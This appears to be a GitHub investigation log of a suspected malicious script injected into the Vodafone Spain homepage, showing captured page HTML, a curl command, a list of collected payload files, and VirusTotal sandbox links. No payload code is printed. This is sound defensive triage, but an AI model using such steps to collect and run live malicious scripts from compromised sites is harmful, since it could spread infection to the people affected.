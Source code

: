 # malware issue

- Detected a weird URL at: `https://www.vodafones.es/t-Dunsine-Deuill-our-hee-arts-The-hums-a-deight-`
  at the `https://www.vodafone.es/`

## 6-jul-2025

- Retrieve html where the URL of the script is found by: `curl -L "https://www.vodafone.es" | head -n 10`

```raw
curl -L "https://www.vodafone.es" | head -n 10
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100  3056    0  3056    0     0   5950      0 --:--:-- --:--:-- --:--:--  5950
<!-- (es1231yr)-->
<!DOCTYPE html><html class="no-js" lang="es"><head><script src="/t-Dunsine-Deuill-our-hee-arts-The-hums-a-deight-" async></script><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge, chrome=1"><meta name="referrer" content="no-referrer-when-downgrade"><title>Vodafone España - Internet, Móvil y TV | WEB OFICIAL®</title><link type="application/opensearchdescription+xml" rel="search" href='/c/statics/osdd.xml' title="Vodafone"/><meta name="title" content='Vodafone España - Internet, Móvil y TV | WEB OFICIAL®'/><meta name="description" content='Telefonía móvil e Internet con la mejor Conexión 5G en España. Internet, Fibra óptica, Móvil y Televisión ¡Con ofertas a tu medida!'/><meta name="keywords" content=''/>
	<!-- SOCIAL META TAGS -->
	<meta property="og:url" content="https://www.vodafone.es/c/particulares/es/"/><meta property="og:title" content='Vodafone España - Internet, Móvil y TV | WEB OFICIAL®'/><meta property="og:description" content='Telefonía móvil e Internet con la mejor Conexión 5G en España. Internet, Fibra óptica, Móvil y Televisión ¡Con ofertas a tu medida!'/><meta property="twitter:title" content='Vodafone España - Internet, Móvil y TV | WEB OFICIAL®'/><meta property="twitter:description" content='Telefonía móvil e Internet con la mejor Conexión 5G en España. Internet, Fibra óptica, Móvil y Televisión ¡Con ofertas a tu medida!'/><meta property="og:image" content='https://www.vodafone.es/c/statics/imagen/ogg-vodafone.jpg'/><meta name="twitter:image" content='https://www.vodafone.es/c/statics/imagen/ogg-vodafone.jpg'/>
	<!-- ROBOTS META TAG -->
	<link rel="canonical" href='https://www.vodafone.es/c/particulares/es/'></link><meta content="width=device-width, initial-scale=1.0, minimum-scale=1.0" name="viewport"/><meta name="theme-color" content="#E60000"><link rel="manifest" href="/manifest.json"/><script type="application/ld+json">
{
    "@context": "https://schema.org",
    "@type": "WebSite",
100 16367    0 16367    0     0  29251      0 --:--:-- --:--:-- --:--:--  288k
curl: (23) Failure writing output to destination, passed 1436 returned 17
```

- Retrieve payload by: `./download.sh`

```raw
ll data/
total 1096
-rw-r--r--. 1 avisiedo avisiedo 275626 Jul  6 18:21 payload-curl.js
-rw-r--r--. 1 avisiedo avisiedo 275626 Jul  6 18:21 payload-firefox-linux.js
-rw-r--r--. 1 avisiedo avisiedo 275626 Jul  6 18:21 payload-firefox-macos.js
-rw-r--r--. 1 avisiedo avisiedo 275626 Jul  6 18:21 payload-firefox-win.js
-rw-r--r--. 1 avisiedo avisiedo   7820 Jul  6 18:17 ua-firefox.txt
```

- The payloads are compared and are the same when changing the "User-Agent"
  header.
- Analyzed the `payload-firefox-win.js` at VirusTotal at:
  [Virus Total Report](https://www.virustotal.com/gui/file-analysis/ODAzMWYxOTQ3ZWIwY2JiOWViNDQxYzI2ZjViZDVhNmY6MTc1MTgxOTg1Mg==)

  - [CAPE Sandbox report](https://www.virustotal.com/ui/file_behaviours/54653bfd567c9d6633296bc8c2e9f929c3e589e56811caf683642f73764c2e81_CAPE%20Sandbox/html)
  - [Zenbox report](https://www.virustotal.com/ui/file_behaviours/54653bfd567c9d6633296bc8c2e9f929c3e589e56811caf683642f73764c2e81_Zenbox/html)

## 7-jul-2025

- After indenting the content for `payload-curl.js` the content is too complex to be made
  by hand; some tool should have been used to pack the payloads (assuming some of the byte
  traces expressed as base64 are payloads).

